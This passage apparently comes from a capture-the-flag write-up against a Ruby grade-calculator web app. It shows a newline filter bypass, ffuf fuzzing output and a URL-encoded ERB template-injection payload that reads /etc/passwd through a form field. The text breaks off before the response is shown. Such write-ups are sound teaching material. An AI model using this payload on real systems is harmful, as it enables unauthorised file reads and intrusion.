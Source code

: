 Using `%0a` (newline) allows a bypass of the filter. `category1=a%0a%1` returns an error string `Invalid query parameters: invalid %-encoding (a%0a%1)`, which is a Ruby error.

I try fuzzing for more bad characters.

```console
$ ffuf -w /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt -request req -request-proto http
...
________________________________________________
 :: Method           : POST
 :: URL              : http://t/weighted-grade-calc
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt
 :: Header           : Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
 :: Header           : Host: t
 :: Header           : Cache-Control: max-age=0
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Referer: http://t/weighted-grade
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Header           : Connection: close
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Origin: http://t
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Data             : category1=aFUZZ&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
...
```

And get one that triggers "Internal Server Error":

```console
..%c0%af                [Status: 500, Size: 30, Words: 3, Lines: 1, Duration: 123ms]
```

After some fiddling it's just the `%c0` (`À`) character that triggers the error. Ultimately this approach was a deadend for me.

But, URL-encoding `<%=File.read("/etc/passwd")%>` and sending it after `0x0a` triggers a file inclusion vulnerability:

Request parameters: `category1=a%0a%3c%25%3d%46%69%6c%65%2e%72%65%61%64%28%22%2f%65%74%63%2f%70%61%73%73%77%64%22%29%25%3e&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20`

Response:
